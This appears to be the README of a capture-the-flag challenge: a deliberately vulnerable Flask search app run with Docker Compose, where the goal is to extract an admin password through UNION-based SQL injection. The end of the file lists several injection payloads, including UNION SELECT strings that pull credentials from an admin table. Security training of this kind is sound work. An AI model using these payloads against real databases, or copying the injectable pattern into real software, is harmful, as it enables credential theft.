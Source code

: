 # UNION-based SQL Injection — CTF Challenge

## Summary
Simple Flask app with a user search feature vulnerable to UNION-based SQLi.
Goal: extract the admin password (flag) using a UNION SELECT.

## Quick start (Docker Compose)
1. Build and start:
```bash
docker-compose build
docker-compose up -d
```
2. Visit: http://localhost:5000
3. Use the username field to inject UNION payload and retrieve the flag.

## ' OR '1'='1
## nonexistent' UNION SELECT 1, 2, 3 -- 
## nonexistent' UNION SELECT username, password, 'x' FROM admin -- 
## nonexistent' UNION SELECT NULL, password, NULL FROM admin -- 
## nonexistent' UNION SELECT 1, password, 'x' FROM admin # 
## nonexistent' UNION SELECT 1, password, 'x' FROM admin -- 


